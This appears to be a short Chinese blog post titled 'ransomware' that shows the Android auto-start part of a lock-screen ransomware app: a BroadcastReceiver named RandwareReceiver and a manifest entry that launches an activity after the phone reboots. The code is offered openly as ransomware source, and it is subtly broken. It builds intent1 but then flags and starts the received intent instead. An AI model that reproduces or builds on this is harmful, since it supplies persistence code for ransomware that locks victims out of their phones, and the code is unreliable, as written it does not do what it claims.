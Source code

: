 ```yaml
---
layout: post
title: 勒索软件
category: BroadcastReceiver
tags: [BroadcastReceiver]
excerpt: 勒索软件
---
```


### 定义广播接收者,接收手机重启事件 ###

    public class RandwareReceiver extends BroadcastReceiver {
	    @Override
	    public void onReceive(Context context, Intent intent) {
	        Intent intent1 = new Intent(context, MainActivity.class);
	        intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
	        context.startActivity(intent);
	    }
	}

### 清单文件配置 ###

    
        <receiver android:name=".RandwareReceiver"
            android:exported="true"
            android:enabled="true">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED"/>
            </intent-filter>
        </receiver>







